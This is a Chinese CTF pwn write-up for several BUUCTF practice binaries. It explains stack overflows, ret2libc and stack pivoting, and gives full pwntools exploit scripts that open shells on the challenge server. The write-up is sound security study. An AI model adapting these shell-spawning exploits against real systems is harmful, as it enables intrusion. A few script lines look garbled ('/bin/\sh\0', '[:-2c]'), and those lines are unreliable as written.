


# other_shellcode 1
这题直连就是 getshell，大概就是介绍一下系统调用这玩意


# not_the_same_3dsctf_2016
主函数即给了 gets 用于栈溢出，先利用后门函数 get_secret () 将 flag 写入内存，之后用 write 函数输出 flag。
代码如下
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./not_the_same_3dsctf_2016') | |
p= remote("node4.buuoj.cn",29076) | |
e=ELF('./not_the_same_3dsctf_2016') | |
write_plt = e.sym['write'] | |
backdoor = 0x080489A0 | |
flag = 0x080ECA2D | |
main_addr = e.sym['main'] | |
offset = 0x2D | |
payload = b'a'*offset + p32(backdoor) + p32(write_plt) + p32(main_addr) + p32(1)+ p32(flag) +p32(0x100) | |
p.sendline(payload) | |
print(p.recv()) | |
p.interactive() |
# *ciscn_2019_ne_5
经典菜单程序。getflag 函数中，strcpy (dest, src) 将 src 复制给 dest，此时可以造成溢出。
在 AddLog 中输入 payload，之后进入 GetFlag 即可实现栈溢出。
利用 system 函数和 sh 字符串 getshell。
32 位下 ret2libc 时，若选用的汇编命令为 call system 时，构造 payload 时 system 地址和参数地址之间的返回地址可省略。因为调用 call 指令时会将当前命令地址压入栈中，相当于正常流程中入栈返回地址。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./ciscn_2019_ne_5') | |
p=remote('node4.buuoj.cn',28585) | |
call_sys = 0x080486B9 | |
sys = 0x080484D0 | |
sh= 0x080482ea | |
main = 0x8048722 | |
offset = 0x48 + 4 | |
payload = b'a'*offset + p32(call_sys) + p32(sh) | |
#该行为使用 call system | |
#payload = b'a'*offset + p32(sys) +b'aaaa'+ p32(sh) | |
#该行为使用 system 的真实地址 | |
p.sendline(b'administrator') | |
p.sendline(b'1') | |
p.recvuntil(b'info:') | |
p.sendline(payload) | |
p.recvuntil(b'Exit\n:') | |
p.sendline(b'4') | |
p.interactive() |
# 2018_rop
ret2libc3
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',29613) | |
#p=process('./2018_rop') | |
#gdb.attach(p,'b *0x0') | |
e=ELF('./2018_rop') | |
write=e.plt['write'] | |
lsm_g=e.got['__libc_start_main'] | |
main_a=e.symbols['main'] | |
offset=0x088 + 4 | |
payload = b'a'*offset + p32(write) + p32(main_a) + p32(1) + p32(lsm_g) + p32(0x10) | |
p.sendline(payload) | |
lsm_a= u32(p.recv(4)[:4]) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc=LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
payload=b'a'*offset + p32(sys_a) + p32(main_a) + p32(bs_a) | |
p.sendline(payload) | |
p.interactive() | |
p.close() |
# ciscn_2019_es_2
这题利用栈迁移。因为栈溢出刚好只能溢出到返回地址，完全不够 payload。
有两次 read 机会。第一次泄露 ebp 地址，第二次将旧 ebp 修改为字符串起始位置 - 4，返回地址设置为 leave ret 指令的地址，在 main 函数结束时两次 leave ret 即可将栈顶设置为字符串起始。


#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./ciscn_2019_es_2') | |
p=remote('node4.buuoj.cn',25878) | |
#gdb.attach(p, 'b printf') | |
call_puts = 0x0804861D | |
sys = 0x08048559 | |
binsh = 0x080486C0 | |
hack =0x0804854B | |
offset = 0x28 #before ebp | |
leave_ret = 0x080484b8 | |
main = 0x0 | |
payload = b'a'*(offset-1) + b'b' | |
p.send(payload) | |
p.recvuntil(b'b') | |
ebp = u32(p.recv(4)) | |
new_ebp = ebp - 0xffffcf98 + 0xffffcf60 - 4 | |
payload = (p32(sys) + p32(new_ebp+12) + b'/bin/\sh\0').ljust(offset, b'a') + p32(new_ebp) + p32(leave_ret) | |
p.send(payload) | |
p.interactive() |
# [HarekazeCTF2019]baby_rop2
ret2libc
没有 puts 函数只能用 printf 函数，这时需要一个程序自带的，含有 % s 的字符串。
这题比较恶心的是 flag 没放在根目录，利用 find -name “flag" 查找文件位置。


#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',29945) | |
#p=process('./babyrop2') | |
#gdb.attach(p,'b printf') | |
e = ELF('./babyrop2') | |
printf_p = e.plt['printf'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_g = e.got['printf'] | |
offset = 0x020 + 8 | |
main_a = e.sym['main'] | |
exit_a = main_a | |
prdi = 0x0400733 | |
rsi_r15_ret = 0x400731 | |
ret = 0x04004d1 | |
src = 0x400770 | |
def ready(): | |
p.recvuntil(b'What\'s your name? ') | |
ready() | |
payload = offset * b'a' + p64(prdi) + p64(src) + p64(rsi_r15_ret) + p64(lsm_g) + p64(0)+p64(printf_p)+ p64(main_a) | |
p.sendline(payload) | |
p.recvuntil(b'!\nWelcome to the Pwn World again, ') | |
lsm_a = u64(p.recvuntil('!\n')[:-2c].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc = ELF('./libc.so.6') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
ready() | |
payload = offset * b'a' + p64(ret) + p64(prdi) + p64(bs_a) + p64(sys_a) + p64(exit_a) | |
p.sendline(payload) | |
p.interactive() | |
p.close() |